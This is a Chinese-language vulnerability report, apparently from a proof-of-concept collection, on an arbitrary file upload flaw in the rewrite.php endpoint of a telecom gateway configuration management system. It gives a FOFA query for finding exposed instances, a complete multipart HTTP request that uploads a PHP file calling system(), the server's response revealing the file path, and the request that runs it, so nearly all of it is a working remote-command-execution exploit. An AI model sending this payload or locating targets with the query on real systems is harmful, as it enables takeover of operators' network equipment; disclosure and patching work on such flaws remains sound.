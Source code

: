 **漏洞名称**

电信网关配置管理系统 rewrite.php 任意文件上传漏洞

**漏洞影响**

电信网关配置管理系统

**漏洞描述**

电信网关配置管理系统是一种用于管理和配置电信网关设备的软件系统。该系统具有用户友好的界面，支持对网关设备进行集中管理、配置和监控。通过该系统，运营商可以轻松地对网关进行参数设置、路由配置、性能监测和故障诊断。此外，系统还提供权限管理功能，确保只有授权人员可以进行配置修改。通过实时更新和报警功能，系统能够及时发现并响应网络问题，保障网络的稳定性和安全性。

  该系统rewrite.php接口处存在任意文件上传漏洞，同时会导致任意命令执行。这会导致系统被黑客远控，请及时修复。

**FOFA搜索语句**

body="img/login_bg3.png" && body="系统登录"

**漏洞复现**

第一步，上传文件，执行系统命令echo ywivnebthzckamzybmxj写入文件

```yaml

POST /manager/teletext/material/rewrite.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Content-Length: 325
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzgxzdlsw
Accept-Encoding: gzip

------WebKitFormBoundaryzgxzdlsw
Content-Disposition: form-data; name="tmp_name"; filename="xfakqbto.php"
Content-Type: image/png

<?php system("echo ywivnebthzckamzybmxj");unlink(__FILE__);?>
------WebKitFormBoundaryzgxzdlsw
Content-Disposition: form-data; name="uploadtime"


------WebKitFormBoundaryzgxzdlsw--
```

响应内容如下，其中url是回显文件路径

```yaml
HTTP/1.1 200 OK
Connection: close
Content-Length: 107
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=UTF-8
Date: Thu, 23 May 2024 03:45:23 GMT
Server: Apache/2.2.15 (CentOS)
X-Powered-By: PHP/5.3.3

{"ret":0,"ret_msg":"success","url":"\/xmedia\/material\/xfakqbto.php","date":"20240523_114523_1716435923."}
```

第二步，访问回显文件

http://x.x.x.x/xmedia/material/xfakqbto.php

响应数据包如下

```yaml
HTTP/1.1 200 OK
Connection: close
Content-Length: 21
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=UTF-8
Date: Thu, 23 May 2024 03:45:23 GMT
Server: Apache/2.2.15 (CentOS)
X-Powered-By: PHP/5.3.3

ywivnebthzckamzybmxj
```

